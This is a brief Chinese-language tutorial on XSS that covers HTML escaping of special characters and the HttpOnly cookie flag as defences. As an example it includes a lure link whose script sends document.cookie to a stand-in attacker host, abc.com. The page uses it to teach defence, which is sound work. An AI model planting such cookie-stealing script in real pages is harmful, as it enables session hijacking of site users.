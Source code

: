 ```yaml
---
title: XSS
---
```


## 什么是 XSS

XSS（Cross Site Script）跨站脚本攻击；其原本缩写是 CSS，但为了和层叠样式表(Cascading Style Sheet)有所区分，因而在安全领域叫做 XSS。

## 特殊字符处理

XSS 攻击其实本质比较简单，就是利用 HTML 里面的特殊字符(单引号，双引号，大于、小于等)，打乱正常的代码执行流程，并将恶意代码注入到系统中。

- 输入处理: 包括用户输入、URL 参数、POST 请求参数、Ajax
- 输出处理:
  - `<` : `&lt`
  - `>` : `&gt`
  - `&` : `&amp`
  - `"` : `&quot`
  - `'` : `&#39`
  - ....

## HttpOnly

使用跨站点脚本技术可以窃取 cookie。当网站允许使用 JavaScript 操作 cookie 的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的 cookie 信息。例如：

```html
<a href="#" onclick="handleCLick">领取红包</a>

<script>
  function handleCLick() {
    window.location = `http://abc.com?cookie=${docuemnt.cookie}`;
  }
</script>
```

当用户点击这个链接的时候，浏览器就会执行 `onclick` 的代码，结果这个网站用户的 cookie 信息就会被发送到 `abc.com` 攻击者的服务器。攻击者同样可以拿 cookie 搞事情。

:::tip

解决办法：可以通过 cookie 的 `HttpOnly` 属性，设置了 `HttpOnly` 属性，javascript 代码将不能操作 cookie。

:::

## 参考资料

1. [XSS 原理和攻防 - Web 安全常识 By 代码真香](https://www.youtube.com/watch?v=QJzkifQ-Cuk)
